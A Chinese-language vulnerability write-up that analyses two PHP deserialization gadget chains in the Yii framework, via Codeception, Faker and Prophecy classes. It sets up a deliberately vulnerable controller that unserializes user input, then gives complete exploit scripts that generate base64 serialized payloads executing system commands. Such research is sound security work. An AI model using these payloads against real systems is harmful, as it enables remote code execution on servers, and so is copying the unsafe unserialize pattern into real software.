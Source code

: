 # 环境搭建
> 修改`config\web.php`中的`cookieValidationKey`为任意值来作为`yii\web\Request::cookieValidationKey`的加密值，不设置的话将会发生报错

> 添加一个`Controller`来作为反序列化漏洞的触发点

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# 漏洞分析
> 全局搜索`__destruct()`来寻找反序列化的触发点，查看每个`__destruct()`方法后发现之前许多可以利用的出发点都加上了`__wakeup()`方法来修补反序列化的漏洞

<img src="./images/yii-1.png" alt="">

## POC链-1
> 跟进`vendor\codeception\codeception\ext\RunProcess.php`中的`__destruct()`方法，其会调用`stopProcess()`方法，先对`$this->processes`数组变量进行翻转，由于`$process`变量是可控的，因此可以通过寻找`__call()`方法来进一步寻找利用链

<img src="./images/yii-2.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\ValidGenerator.php`中的`__call()`方法，在 while 语句中存在`call_user_func()`方法，由于`$this->validator`是可控的，所以当`$res`可控时，即可造成命令执行函数的利用，因此需要寻找一个类中的`__call()`方法是返回一个可控的变量值的

<img src="./images/yii-3.png" alt="">

> 跟进`vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`中的`__call()`方法，其返回值是可控的变量值，成功构成一条闭合的利用链

<img src="./images/yii-4.png" alt="">

### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

### POC链利用流程图
<img src="./images/yii-5.png" alt="">

## POC链-2
> 起始点不变，跟进 `vendor\phpspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`中的`__call()`方法，其会调用一个`reveal()`方法，且`$this->revealer`是可控的

<img src="./images/yii-6.png" alt="">

> 尝试不使用本类的该方法而自动调用其他类中的该方法后发现无法利用，因此跟进本类中的`reveal()`方法，这里`$this->lazyDouble`是可控的，可以赋值为存在`getInstance()`方法的类

<img src="./images/yii-7.png" alt="">

> 跟进`src/Prophecy/Doubler/LazyDouble.php`中的`getInstance()`方法，`$this->double`和`$this->arguments`均可控，此处进步进入if判断的语句都没有区别，最后调用的方法都是一样的，且`$this->doubler`可控，跟进`double()`方法，确认存在该方法的类，再对`$this->doubler`进行实例化类赋值即可，`$this->class`和`$this->interfaces`的赋值需要根据`double()`方法的参数类型来确定

<img src="./images/yii-8.png" alt="">

> 继续跟进`src/Prophecy/Doubler/Doubler.php`中的`double()`方法，先用`ReflectionClass`类构建异常处理类的反射类来避免代码中异常抛出，从而走到调用`createDoubleClass()`方法

<img src="./images/yii-9.png" alt="">

> 继续跟进`Doubler`类中的`createDoubleClass()`方法，这里`$name`和`$node`可以用`DefaultGenerator`类中的`__call()`方法来任意构造，从而进入`create()`方法

<img src="./images/yii-10.png" alt="">

> 跟进`create()`方法，`$node`需要为`Node\ClassNode`类对象，这里利用`eval()`方法可以插入代码执行，还是用同样的方法来使得`$code`可控，实例化为`DefaultGenerator`类对象

<img src="./images/yii-11.png" alt="">

### exp
```php
<?php
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($cmd) {
			$this->default = $cmd;
		}
	}
}

namespace Prophecy\Doubler\Generator {
	use Faker\DefaultGenerator;
	class ClassCreator {
		private $generator;
		public function __construct($cmd) {
			$this->generator = new DefaultGenerator($cmd);
		}
	}
}

namespace Prophecy\Doubler\Generator\Node {
	class ClassNode {}
}

namespace Prophecy\Doubler {
	use Faker\DefaultGenerator;
	use Prophecy\Doubler\Generator\ClassCreator;
	use Prophecy\Doubler\Generator\Node\ClassNode;
	class Doubler {
		private $namer;
		private $mirror;
	    private $creator;
	    public function __construct() {
	    	$this->namer = new DefaultGenerator("H3rmesk1t");
	    	$this->mirror = new DefaultGenerator(new ClassNode());
	    	$this->creator = new ClassCreator("system('calc.exe');");
	    }
	}
}

namespace Prophecy\Doubler {
	use Prophecy\Doubler\Doubler;
	class LazyDouble {
		private $class;
		private $doubler;
	    private $argument;
	    private $interfaces;
	    public function __construct() {
	    	$this->doubler = new Doubler();
	        $this->argument = ["H3rmesk1t" => "H3rmesk1t"];
	        $this->class = new \ReflectionClass('Exception');
	        $this->interfaces[] = new \ReflectionClass('Exception');
	    }
	}
}

namespace Prophecy\Prophecy {
	use Prophecy\Doubler\LazyDouble;
	class ObjectProphecy {
		private $revealer;
		private $lazyDouble;
		public function __construct($cmd) {
			$this->revealer = $cmd;
			$this->lazyDouble = new LazyDouble();
		}
	}
}


namespace Codeception\Extension {
	use Prophecy\Prophecy\ObjectProphecy;
	class RunProcess {
		private $processes;
		public function __construct() {
			$cmd = new ObjectProphecy("H3rmesk1t");
			$this->processes[] = new ObjectProphecy($cmd);
		}
	}
	echo base64_encode(serialize(new RunProcess()));
}
?>
```

### POC链利用流程图
<img src="./images/yii-12.png" alt="">

